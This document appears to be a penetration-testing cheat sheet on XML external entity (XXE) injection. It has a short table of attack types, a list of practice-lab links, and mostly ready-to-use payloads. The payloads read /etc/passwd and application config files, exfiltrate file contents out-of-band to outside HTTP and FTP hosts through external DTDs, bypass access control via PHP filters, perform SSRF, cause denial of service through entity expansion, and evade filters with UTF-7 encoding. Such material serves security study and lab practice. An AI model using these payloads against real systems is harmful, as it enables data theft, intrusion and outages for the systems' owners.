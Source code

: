 **There are various types of XXE attacks:**

|   |   |
|---|---|
|XXE Attack Type|Description|
|Exploiting XXE to Retrieve Files|Where an external entity is defined containing the contents of a file, and returned in the application's response.|
|Exploiting XXE to Perform SSRF Attacks|Where an external entity is defined based on a URL to a back-end system.|
|Exploiting Blind XXE Exfiltrate Data Out-of-Band|Where sensitive data is transmitted from the application server to a system that the attacker controls.|
|Exploiting blind XXE to Retrieve Data Via Error Messages|Where the attacker can trigger a parsing error message containing sensitive data.|

## Test Payload[#](https://trojand.com/cheatsheet/Web/XXE_Injection.html#test-payload)

### Using private External Entity[#](https://trojand.com/cheatsheet/Web/XXE_Injection.html#using-private-external-entity)

```
<?xml version="1.0" ?><!DOCTYPE data [<!ELEMENT data ANY ><!ENTITY cat "Tom">]><Contact><lastName>&cat;</lastName><firstName>Jerry</firstName></Contact>
```

### Using a public External Entity[#](https://trojand.com/cheatsheet/Web/XXE_Injection.html#using-a-public-external-entity)

```
<?xml version="1.0"?><!DOCTYPE data [	<!ELEMENT data ANY >	<!ENTITY cat SYSTEM "file:///etc/passwd">]><Contact><lastName>&cat;</lastName><firstName>Jerry</firstName></Contact>
```

## CDATA[#](https://trojand.com/cheatsheet/Web/XXE_Injection.html#cdata)

- XXE that can print XML files through the CDATA:
    
    ```
    <?xml version="1.0"?><!DOCTYPE data [<!ELEMENT data ANY ><!ENTITY % start "<![CDATA["><!ENTITY % file SYSTEM "file:///var/www/html/myapp/WEB-INF/web.xml" ><!ENTITY % end "]]>"><!ENTITY % dtd SYSTEM "http://192.168.1.5:8000/wrapper.dtd" >%dtd;]><Contact><lastName>&wrapper;</lastName><firstName>FIRSTNAME_FILLER</firstName></Contact>
    ```
    
- Inside the `wrapper.dtd` (the external DTD file)
    
    - Its purpose is just to wrap the variables(parameters) into
    
    ```
    <!ENTITY wrapper "%start;%file;%end;">
    ```
    

- **==Exploitation==**
    
    **LFI Test**
    
    ```
    <?xml version="1.0"?><!DOCTYPE foo [<!ELEMENT foo (\#ANY)><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
    ```
    
    **Blind LFI test (when first case doesn't return anything)**
    
    ```
    <?xml version="1.0"?><!DOCTYPE foo [<!ELEMENT foo (\#ANY)><!ENTITY % xxe SYSTEM "file:///etc/passwd"><!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
    ```
    
    **Access Control bypass (loading restricted resources - PHP example)**
    
    ```
    <?xml version="1.0"?><!DOCTYPE foo [<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]><foo><result>&ac;</result></foo>
    ```
    
    **SSRF Test**
    
    ```
    <?xml version="1.0"?><!DOCTYPE foo [<!ELEMENT foo (\#ANY)><!ENTITY xxe SYSTEM "<https://www.example.com/text.txt>">]><foo>&xxe;</foo>
    ```
    
    **XEE (XML Entity Expansion - DOS)**
    
    ```
    <?xml version="1.0"?><!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (\#PCDATA)><!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"><!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"><!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"><!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"><!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"><!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"><!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"><!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"><!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">]><lolz>&lol9;</lolz>
    ```
    
    **XEE \#2 (Remote attack - through external xml inclusion)**
    
    ```
    <?xml version="1.0"?><!DOCTYPE lolz [<!ENTITY test SYSTEM "<https://example.com/entity1.xml>">]><lolz><lol>3..2..1...&test<lol></lolz>
    ```
    
    **XXE FTP HTTP Server**
    
    [https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)
    
    [http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html)
    
    ```
    <!DOCTYPE data [<!ENTITY % remote SYSTEM "<http://publicServer.com/parameterEntity_sendftp.dtd>">%remote;%send;]><data>4</data>File stored on <http://publicServer.com/parameterEntity_sendftp.dtd><!ENTITY % param1 "<!ENTITY &\#37; send SYSTEM 'ftp://publicServer.com/%payload;'>">%param1;
    ```
    
    **XXE UTF-7**
    
    ```
    <?xml version="1.0" encoding="UTF-7"?>+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA++ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
    ```
    
    To convert between UTF-8 & UTF-7 use recode.  
    `recode UTF8..UTF7 payload-file.xml`
    

- [ ] [**Blind XXE with out-of-band interaction**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
- [ ] [**Exploiting blind XXE to exfiltrate data using a malicious external DTD**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)
- [ ] [**Blind XXE with out-of-band interaction via XML parameter entities**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
- [ ] [**Exploiting blind XXE to retrieve data via error messages**](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages) **[ DTD Blind Out-of-band ]**
- [ ] [**Exploiting XInclude to retrieve files**](https://portswigger.net/web-security/xxe/lab-xinclude-attack)
- [ ] [PortSwigger Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
- [ ] [**Exploiting XXE to retrieve data by repurposing a local DTD**](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)